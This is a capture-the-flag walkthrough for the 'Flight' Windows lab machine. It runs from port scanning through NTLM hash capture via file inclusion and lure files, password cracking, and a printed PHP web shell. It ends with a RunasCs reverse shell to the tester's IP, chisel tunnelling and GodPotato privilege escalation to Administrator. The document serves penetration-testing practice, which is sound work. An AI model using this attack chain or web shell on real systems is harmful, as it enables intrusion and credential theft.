- Machine Name: Flight
- OS Type: Windows
- Difficulty: Hard

### Port Scanning - Service & Version Enumeration

```bash
# Nmap 7.95 scan initiated Mon Apr 21 09:53:40 2025 as: /usr/lib/nmap/nmap -sVC -p- --open -oN initial/nmap.out -vv 10.10.11.187
Nmap scan report for 10.10.11.187
Host is up, received echo-reply ttl 127 (0.28s latency).
Scanned at 2025-04-21 09:53:41 IST for 752s
Not shown: 65517 filtered tcp ports (no-response)
Some closed ports may be reported as filtered due to --defeat-rst-ratelimit
PORT      STATE SERVICE       REASON          VERSION
53/tcp    open  domain        syn-ack ttl 127 Simple DNS Plus
80/tcp    open  http          syn-ack ttl 127 Apache httpd 2.4.52 ((Win64) OpenSSL/1.1.1m PHP/8.1.1)
|_http-title: g0 Aviation
| http-methods: 
|   Supported Methods: OPTIONS HEAD GET POST TRACE
|_  Potentially risky methods: TRACE
|_http-server-header: Apache/2.4.52 (Win64) OpenSSL/1.1.1m PHP/8.1.1
88/tcp    open  kerberos-sec  syn-ack ttl 127 Microsoft Windows Kerberos (server time: 2025-04-21 11:34:34Z)
135/tcp   open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
139/tcp   open  netbios-ssn   syn-ack ttl 127 Microsoft Windows netbios-ssn
389/tcp   open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds? syn-ack ttl 127
464/tcp   open  kpasswd5?     syn-ack ttl 127
593/tcp   open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped    syn-ack ttl 127
3268/tcp  open  ldap          syn-ack ttl 127 Microsoft Windows Active Directory LDAP (Domain: flight.htb0., Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped    syn-ack ttl 127
9389/tcp  open  mc-nmf        syn-ack ttl 127 .NET Message Framing
49667/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49673/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49674/tcp open  ncacn_http    syn-ack ttl 127 Microsoft Windows RPC over HTTP 1.0
49697/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
49722/tcp open  msrpc         syn-ack ttl 127 Microsoft Windows RPC
Service Info: Host: G0; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| p2p-conficker: 
|   Checking for Conficker.C or higher...
|   Check 1 (port 32072/tcp): CLEAN (Timeout)
|   Check 2 (port 59198/tcp): CLEAN (Timeout)
|   Check 3 (port 44855/udp): CLEAN (Timeout)
|   Check 4 (port 47973/udp): CLEAN (Timeout)
|_  0/4 checks are positive: Host is CLEAN or ports are blocked
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: 6h59m59s
| smb2-time: 
|   date: 2025-04-21T11:35:27
|_  start_date: N/A

Read data files from: /usr/share/nmap
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Mon Apr 21 10:06:13 2025 -- 1 IP address (1 host up) scanned in 753.06 seconds

```

## Enumeration

### Port 80/HTTP

i’ll start my enumeration from port http which is running a website of company



let’s run the whatweb to check web technologoies



### Port 139,445/SMB

let’s check the smb for  null session

```bash
smbclient -L //10.10.11.187
```



let’s check  enum4linux, nothing from enum4linux

### Port 135/MSRPC

```bash
rpcclient -U "" -N 10.10.11.187
```



Nothing interesting yet, i’m moving to web enumeration and let’s enumerate for any subdomains for the website i’ll be using wfuzz tool for that

```bash
wfuzz -w /usr/share/wordlists/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u http://flight.htb -H "Host: FUZZ.flight.htb" --hh 7069
```



yes that’s it we got the school subdomain let’s quickly add this to our /etc/hosts file

> Note: Before starting wfuzz or any other subdomain enumerations add flight.htb to /etc/hosts fille
> 

let’s visit the school.flight.htb





if we look at the url we can see that the view parameter is calling file, let’s try LFI maybe



Oh there’s some security in place, can we include remote files?



on python webserver on kali



let’s check if we can execute php code i’ll use below simple php code

```bash
<?php
phpinfo();
?>
```

save it as test.php and then access it.



ohh so it not included, let’s check the source to check what’s going on



ok so it just included it’s contents instead of executing it

what now!, we are  working with windows box, let’s try smb to get NTLM hash for the user using responder

```bash
sudo responder -I tun0 -v 
```

[http://school.flight.htb/index.php?view=\\\\10.10.14.17\\test](http://school.flight.htb/index.php?view=%5C%5C%5C%5C10.10.14.17%5C%5Ctest)



possibly it beacuse of we are using `\` instead of `/` let’s try `/` 



and we got the hash



let’s crack it using hashcat

```bash
hashcat -m 5600 apache.ntlmv2 /usr/share/wordlists/rockyou.txt
```



great, let’s use this password to enumerate user’s from netexec `--users` option

```bash
netexec smb 10.10.11.187 -u svc_apache -p 'S@Ss!K@*t13' --users
```



users.txt

```bash
Administrator
Guest
krbtgt
S.Moon
R.Cold
G.Lors
L.Kein
M.Gold
C.Bum
W.Walker
I.Francis
D.Truff
V.Stevens
svc_apache
O.Possum
```

let’s check password reuse

```bash
netexec smb 10.10.11.187 -u users.txt -p password.txt --continue-on-success
```



let’s check if user has any permissions for shares

```bash
netexec smb 10.10.11.187 -u S.Moon -p 'S@Ss!K@*t13' --shares
```



we can see that we have read and write permissions over `Shared` folder let’s keep this thing in our back pocket and move to another thing.

**Shares Summary:**

**NETLOGON**: this share is empty

**Shared**: This share is read and write access

**Users**: nothing useful in this share

**Web**: this share contains the directories of `flight.htb` and `school.flight.htb` website, but nothing interesting found, we have only READ access to this share

we didn’t find anything useful, so let’s move on with shared folder as we have write permissions to this share, and the share name is Shared, we assume that it might be used as the shared folder between users

i’ve tried to upload test.txt and it successfully uploaded, but when i tried to upload url file to steal NTLM hash to go Access Denied Possibly because of Windows consider url files as the Malicious, we need to check for the different types

we can use https://github.com/Greenwolf/ntlm_theft to create many files and then we can upload those files any of one file accessed by victim and we’ll get NTLM hash of user

clone the repository using git clone

```bash
git clone https://github.com/Greenwolf/ntlm_theft
```

run the python script to generate files

```bash
python3 ntlm_theft.py -g all -s 10.10.14.17 -f _0xh3x
```

[https://github.com/Greenwolf/ntlm_theft](https://github.com/Greenwolf/ntlm_theft)



connect with SMB share

```bash
smbclient //10.10.11.187/Shared -U flight.htb/s.moon%'S@Ss!K@*t13'
```

start responder 

```bash
sudo responder -I tun0 -v
```

run below command to upload all files 

```bash
smb: \> prompt
smb: \> mput *
```



and check the responder 



let’s use  hashcat to crack the hash

```bash
hashcat -m 5600 cbum.ntlmv2 /usr/share/wordlists/rockyou.txt
```



great let’s check the what shares we have access to as C.Bum

```bash
netexec smb 10.10.11.187 -u C.Bum -p 'Tikkycoll_431012284' --shares
```



oh great we have a write access to **Web** share let’s upload the php reverse shell and get the shell

**Shell.php**

```php
<html>
<body>
<form method="GET" name="<?php echo basename($_SERVER['PHP_SELF']); ?>">
<input type="TEXT" name="cmd" autofocus id="cmd" size="80">
<input type="SUBMIT" value="Execute">
</form>
<pre>
<?php
    if(isset($_GET['cmd']))
    {
        system($_GET['cmd'] . ' 2>&1');
    }
?>
</pre>
</body>
</html>
```

upload the shell.php in flight.htb and get RCE to the system

connect to web share as C.Bum using smbclient

```php
smbclient //10.10.11.187/Web -U flight.htb/C.Bum%'Tikkycoll_431012284'
```

upload the shell.php using `put shell.php` 



access the web shell at : [http://flight.htb/shell.php](http://flight.htb/shell.php)



let’s transfer the nc.exe  and get the sweet shell, execute commands faster and as shell.php will automatically deleted after 3-4 minutes



let’s start enumerating the system, we found interesting C:\inetpub\development



let’s check the permissions to this folder using `icacls .`



we found that there’s another user on the system as there’s directory in users folder `C:\Users\C.Bum` 

let’s check the group membership of the user using `net user C.Bum` 



the user is member of WebDevs group and the development directory should be only accessible by developers

but we don’t know on which port it is running

let’s check it by `netstat -P TCP -ano` 



the port 8000 is looks interesting let’s check the access by  curl it, site is accessible by curl [http://127.0.0.1:8000/development/](http://127.0.0.1:8000/development/)

unfortunately directory is not writable by us 😟



now as we have the Credentials of the C.Bum user let’s use the runas binary from windows but it does have some limitations we can use it’s alternative https://github.com/antonioCoco/RunasCs/releases

and execute it as C.Bum user to get reverse shell on kali on port 443

```php
RunasCs.exe C.Bum Tikkycoll_431012284 -r 10.10.14.17:443
```



check reverse shell listener on port 443



let’s check if we now have write access to development folder



let’s check by creating php file named test.php to check if it’s executing the php code



it shows the error that this mime type ‘PHP’ is not allowed, let’s try to upload aspx reverse shell 

also if we check the HTTP Header of the web URL using curl



it shows [ASP.NET](http://ASP.NET) so we need to use the aspx shell which we’ve already uploaded let’s forward the port and access the site from our kali machine

start chisel server on kali using

```php
chisel server --reverse --port 5000
```



and then connect with chisel client from target machine

```php
chisel.exe client 10.10.14.17:5000 R:8001:127.0.0.1:8000
```



now you can access development site on [http://127.0.0.1:8001](http://127.0.0.1:8001) and access cmd.aspx



nice we got the command execution as defaultapppool

run nc.exe from `\users\public\nc.exe` 



let’s check the what privileges do we have using `whoami /priv` 



let’s use the GodPotato to abuse the **SeImpersonatePrivilege** 

```php
god.exe -cmd "net user administrator hacker@123"
```



now the administrator’s password let’s use the impacket-psexec to get shell as administrator

```php
impacket-psexec flight.htb/Administrator:'hacker@123'@10.10.11.187
```

